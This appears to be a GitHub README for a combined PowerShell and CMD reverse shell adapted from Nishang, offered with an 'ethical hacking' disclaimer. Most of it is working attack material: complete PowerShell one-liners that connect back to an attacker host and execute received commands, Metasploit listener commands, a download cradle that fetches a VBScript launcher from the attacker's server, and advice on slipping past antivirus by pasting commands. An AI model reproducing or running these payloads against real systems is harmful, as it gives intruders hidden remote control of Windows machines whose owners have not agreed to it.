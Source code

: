 # Combined PowerShell and CMD Reverse Shell

**Credit:** Based on the PowerShell reverse shell one-liner provided by Nikhil Mittal:<br />
https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLine.ps1

**Disclaimer:** These scripts are provided for educational purposes only and for use by Ethical Hackers. Use only on systems for which you have acquired all the legally required contracts and permissions for use. It is your responsibility to determine whether you are legally permitted to use these scripts in your country and for your purposes. No warrantee or guarantees are provided.

**Tested on** PowerShell version 2 and up.

**CMD Shell Intro:**<br />
This is a pseudo cmd.exe reverse shell. I designed this shell to support some PowerShell convenience commands such as 'pwd','ls','ps','rm','cp','mv','cat'.

Simply add more of them to the array if you wish to support more. Also, if you are determined to only support CMD commands when at the CMD prompt then reduce the list. Bear in mind that 'cd,'exit',and 'd:' are required, if you remove them you will be unable to make persistent changes to other drives or directories and you will not be able to use the exit command to exit the shell.

The reality is that PowerShell is calling 'cmd.exe /c' for every cmd command that you enter, so in effect PowerShell is the parent, cmd.exe the child and the only environment change that persists between commands happens in PowerShell. For this reason I had to catch any directory or drive letter change and execute them in PowerShell, otherwise the change would not persist between one call to cmd.exe and the next.

**PowerShell Shell Intro:**<br />
This shell doubles as a PowerShell reverse shell. Type $ps on the cmd command line and the shell will switch to a PowerShell shell from the cmd.exe shell. Then type $ps=$false in the PowerShell shell and you will switch back to running commands through cmd.exe.

The script is intended to be launched with the -NonI (non interactive) option of PowerShell. The result of not running it like this is that PowerShell will try to interactively prompt for missing parameters and your shell will be locked up. As a result of the -NonI option, if you fail to provide the required parameters to a PowerShell command you will not see any error messages, the command simply will not work. So if you are having issues with a command's syntax, be sure to test on your own Windows system from an interactive PowerShell prompt.

## Less Preferred Method of Invocation

 **On Kali:**<br />
export HOSTIP=10.0.0.22;<br />
export EXP1=5379;<br />
msfconsole -q -x "setg LHOST $HOSTIP;use exploit/multi/handler;set ExitOnSession false;set PAYLOAD windows/x64/shell_reverse_tcp;set EXITFUNC thread;set LPORT $EXP1;exploit -j;";

**On Windows:**<br />
set HOSTIP=10.0.0.22<br />
set EXP1=5379<br />
powershell -NoP -NonI -W Hidden -Exec Bypass "& {$ps=$false;$hostip=(gci -path env:HOSTIP).value;$port=(gci -path env:EXP1).value;$client = New-Object System.Net.Sockets.TCPClient($hostip,$port);$stream = $client.GetStream();[byte[]]$bytes = 0..50000|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$cmd=(get-childitem Env:ComSpec).value;$inArray=$data.split(" ");$item=$inArray[0];if(($item -eq '$ps') -and ($ps -eq $false)){$ps=$true}if($item -like '?:'){$item='d:'}$myArray=@('cd','exit','d:','pwd','ls','ps','rm','cp','mv','cat');$do=$false;foreach ($i in $myArray){if($item -eq $i){$do=$true}}if($do -or $ps){$sendback=( iex $data 2>&1 |Out-String)}else{$data2='/c '+$data;$sendback = ( &$cmd $data2 2>&1 | Out-String)};if($ps){$prompt='PS ' + (pwd).Path}else{$prompt=(pwd).Path}$sendback2 = $data + $sendback + $prompt + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()}"

This invocation method assumes that you are pasting the text into a shell on Kali and on Windows. The downside is it will 'use up' the existing cmd shell that you have on Windows. The advantage is that you do not have to download any file.

## More Preferred Method of Invocation
**On Kali - Instructions**<br />
Set up an HTTP server that is providing access to the psrev.vbs file.<br />
Then...<br />
export HOSTIP=10.0.0.22;<br />
export EXP1=5379;<br />
msfconsole -q -x "setg LHOST $HOSTIP;use exploit/multi/handler;set ExitOnSession false;set PAYLOAD windows/x64/shell_reverse_tcp;set EXITFUNC thread;set LPORT $EXP1;exploit -j;";

**On Windows**<br />
Download the psrev.vbs script...<br />
set HOSTIP=10.0.0.22<br />
set EXP1=5379<br />
powershell.exe -Exec Bypass "& {$storageDir = $pwd;$webclient = New-Object System.Net.WebClient;$url = 'http://%HOSTIP%/scripts/vbs/psrev.vbs';$file = 'psrev.vbs';$webclient.DownloadFile($url,$file)}"

Run the psrev.vbs script...<br />
psrev.vbs<br />

The psrev.vbs script requires that you have set the HOSTIP and EXP1 environment variables in the current CMD shell on Windows.

## Different Requirements
If your requirements change such that you are not able to set environment variables on Windows before running the script try the following version:

powershell -NoP -NonI -W Hidden -Exec Bypass "& {$ps=$false;$hostip='10.0.0.22';$port=5379;$client = New-Object System.Net.Sockets.TCPClient($hostip,$port);$stream = $client.GetStream();[byte[]]$bytes = 0..50000|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$cmd=(get-childitem Env:ComSpec).value;$inArray=$data.split(" ");$item=$inArray[0];if(($item -eq '$ps') -and ($ps -eq $false)){$ps=$true}if($item -like '?:'){$item='d:'}$myArray=@('cd','exit','d:','pwd','ls','ps','rm','cp','mv','cat');$do=$false;foreach ($i in $myArray){if($item -eq $i){$do=$true}}if($do -or $ps){$sendback=( iex $data 2>&1 |Out-String)}else{$data2='/c '+$data;$sendback = ( &$cmd $data2 2>&1 | Out-String)};if($ps){$prompt='PS ' + (pwd).Path}else{$prompt=(pwd).Path}$sendback2 = $data +  $sendback + $prompt + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()}"

You will need to edit the $hostip and $port values before pasting the above line into Windows. As before this will 'use up' the existing cmd shell that you have on Windows.

For convenience there is also the psnoenv.vbs script. You will have to edit the script to use the correct $hostip and $port values before running it on the target.

## More Discussion

**Pasted Script VS VBScript Launcher Saved File**

You need to be able to save a file and execute it in order to use the Launcher. Some AV engines only look at files and not what is pasted into an existing command window. Sometimes you are able to execute commands but you are not able to see the output. Then it can be hard to know if your downloads are succeeding or where they are ending up. In this case you could try pasting in and running the script as a command.

If you can download and run the VBScript Launcher file it is far superior in the following ways: You can run the script multiple times and it will continue making reverse shell connections to the msfconsole multi/handler. You can close the original command window that you ran the Launcher script in and the reverse shells continue running. You can even run the Launcher script from within an existing reverse shell connection and it will launch another reverse shell connection to the multi/handler.

**Entered Text Is Echoed Back**

I always wondered why the reverse shell established with netcat echoed the command that was entered back as well as the output. I discovered the answer while trying to figure out why when a session was backgrounded in the multi/handler and then when I later returned to it none of the entered text was visible, and the output text was jumbled up with some of it on the input prompt line itself. As soon as I echoed back the input command text as well as the output with my PowerShell/cmd reverse shell, returning to a backgrounded session resulted in a session display that made sense.

**Troubleshooting**

**The most common issue** that you are going to run into is that while you are trying to get another reverse shell (or the first one) using the "Combined PowerShell and CMD Reverse Shell", you are trying to run the PowerShell or VBScript script in a CMD shell (or reverse shell) that does not have the environment variables HOSTIP and EXP1 set. This can happen when you open another cmd prompt or establish a reverse shell using some other exploit or method. Simply set the required environment variables before trying to run the scripts.

**psrev.vbs Doesn't Seem To Work:** Typically, you will first need to find a directory that your current user is able to write to before attempting to download the psrev.vbs script. If the PowerShell file download script is not able to save the script you will not be able to run it. Other reasons the script may not be saved is if an Anti-Malware software is detecting and removing it, or if the download feature of PowerShell is getting blocked. Also establishing a reverse shell by running the script may not succeed if PowerShell is not permitted at all, or if outgoing connections from PowerShell are being blocked by the Firewall. Also keep in mind that the script requires at least PowerShell version 2 which is only installed by default on Windows 7 and newer Windows operating systems.

**Set Commands Do Not Persist:** With this "Combined PowerShell and CMD Reverse Shell", 'set commands' do not persist. This is because only the PowerShell shell persists between commands that you execute. The solution is to switch to the PowerShell version of the shell and set the environment variable using PowerShell commands:<br />

PS C:\Windows\system32> set-item -path env:BLAH -value WHAT<br />
PS C:\Windows\system32> get-childitem -path env:BLAH<br />

Name                           Value<br />
----                           -----<br />
BLAH                           WHAT<br />

**STDERR (Standard Error)** output from the CMD prompt looks a bit odd. Because the CMD commands are being run from PowerShell you will see PowerShell tries to mark up the resulting error messages. The result looks rather messy. You should still be able to make out the original output of the CMD error message.



